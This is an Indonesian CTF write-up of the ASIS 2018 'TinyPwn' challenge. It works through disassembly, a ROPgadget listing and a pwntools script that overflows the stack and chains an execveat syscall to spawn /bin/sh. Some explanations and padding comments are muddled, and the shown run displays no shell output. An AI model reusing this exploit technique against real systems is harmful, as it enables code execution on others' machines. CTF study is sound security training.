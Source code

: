 # TinyPwn
AsisCTF
sauce       : https://github.com/VoidMercy/CTFs/blob/master/AsisCTF-2018/TinyPwn/README.md
"I did this problem at school, so I didn't have ida ```xD```. You'll have to bear with objdump."
```nc 159.65.125.233 6009```

Oke, soal memberi kita binary yang sudah di strip, coba kita checksec :
```
blaccmail@localhost:~/ROPgadget$ checksec TinyPwn 
[*] '/home/blaccmail/ROPgadget/TinyPwn'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Karena binary ini di strip kita tidak dapat menggunakan gdb, maka ```objdump```  akan digunakan :
```
blaccmail@localhost:~/ROPgadget$ objdump -d TinyPwn 
TinyPwn:     file format elf64-x86-64
Disassembly of section .text:
00000000004000b0 <.text>:
  4000b0:	48 31 c0             	xor    %rax,%rax
  4000b3:	48 31 db             	xor    %rbx,%rbx
  4000b6:	48 31 c9             	xor    %rcx,%rcx
  4000b9:	48 31 d2             	xor    %rdx,%rdx
  4000bc:	48 31 ff             	xor    %rdi,%rdi
  4000bf:	48 31 f6             	xor    %rsi,%rsi
  4000c2:	4d 31 c0             	xor    %r8,%r8
  4000c5:	4d 31 c9             	xor    %r9,%r9
  4000c8:	4d 31 d2             	xor    %r10,%r10
  4000cb:	4d 31 db             	xor    %r11,%r11
  4000ce:	4d 31 e4             	xor    %r12,%r12
  4000d1:	4d 31 ed             	xor    %r13,%r13
  4000d4:	4d 31 f6             	xor    %r14,%r14
  4000d7:	4d 31 ff             	xor    %r15,%r15
  4000da:	48 31 ed             	xor    %rbp,%rbp
  4000dd:	e8 10 00 00 00       	callq  0x4000f2
  4000e2:	b8 3c 00 00 00       	mov    $0x3c,%eax
  4000e7:	48 31 ff             	xor    %rdi,%rdi
  4000ea:	48 31 f6             	xor    %rsi,%rsi
  4000ed:	48 31 d2             	xor    %rdx,%rdx
  4000f0:	0f 05                	syscall 
  4000f2:	48 81 ec 28 01 00 00 	sub    $0x128,%rsp
  4000f9:	48 89 e6             	mov    %rsp,%rsi
  4000fc:	ba 48 01 00 00       	mov    $0x148,%edx
  400101:	0f 05                	syscall 
  400103:	48 81 c4 28 01 00 00 	add    $0x128,%rsp
  40010a:	c3                   	retq  
```
kita temukan tampungan inputnya sebesar ```0x148``` kemudian dia akan menjalankan perintah ```syscall```, lalu ukuran padding sebesar ```0x128``` sebelum ```return```.Oke sekarang kita tahu jumlah payload untuk buffer oferflow namun program tidak memiliki function ```get_flag``` seperti soal - soal biasanya, lalu apa yang harus dilakukan ?. Terpaksa kita harus mendapatkan shell-nya sendiri.

Untuk mendapatkan shell kita dapat melakukan teknink ROP Chain. Teknik ini dapat digunakan dengan memanfaatkann potongan opcode dari program yang menggunakan perintah ```ret```(return) atau dapat disebut juga dengan gadget. Untuk mencari gadget-gadget tersebut dapat menggunakan tool ROPgadget :
```
blaccmail@localhost:~/ROPgadget$ ROPgadget --binary TinyPwn
Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x00000000004000ff : add byte ptr [rax], al ; syscall
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x00000000004000e9 : dec dword ptr [rax + 0x31] ; test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000fc : mov edx, 0x148 ; syscall
0x00000000004000fa : mov esi, esp ; mov edx, 0x148 ; syscall
0x00000000004000f9 : mov rsi, rsp ; mov edx, 0x148 ; syscall
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x00000000004000f0 : syscall
0x00000000004000ec : test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000e8 : xor edi, edi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ee : xor edx, edx ; syscall
0x00000000004000eb : xor esi, esi ; xor rdx, rdx ; syscall
0x00000000004000e7 : xor rdi, rdi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ed : xor rdx, rdx ; syscall
0x00000000004000ea : xor rsi, rsi ; xor rdx, rdx ; syscall
```
  Sepertinya kita akan mainkan di perintah ```syscall```, Dari web : ```http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/``` sys_execve memerlukan isi sebesar 0x3b(59 in decimal), dikarenakan read syscall mengisi ```rax``` sebanyak panjang yang di input dan tampungannya ```sys_execve``` lebih kecil dari padding yang diperlukan, yaitu sebanyak 0x128, kita membutuhkan syscall yang lebih panjang dan besar oleh karena itu kita menggunakan ```stub_execveat``` dengan panjang opcodenya ```0x142```. Pada syscall ini rsi menunjuk ke filename dari execve yang akan menjadi buffer kita dan saat debugging kita perlu mengosongkan rdx, karena programnya bisa tabrakan. Gadget yang kita perlukan ada di 0x4000ed.
  
exploit : 
```
from pwn import *

payload = "/bin/sh\x00" + "B"*(0x148-(8*4)- 8) # <- shell & padding awal
payload += p64(0x00000000004000ed)             # <- xor rdx -> gadget 
payload += p64(0x400101)                       # <- alamat syscall
payload += "A"*(0x142-len(payload)-1)          # <- panjang payload jadi "0x124" untuk syscall

print payload
```

servalnya sdh mati jadi saya jalankan di lokal saja :
```
blaccmail@localhost:~/ROPgadget$ python tinypwn.py | ./TinyPwn 
blaccmail@localhost:~/ROPgadget$                                # <- muncul shell 
```


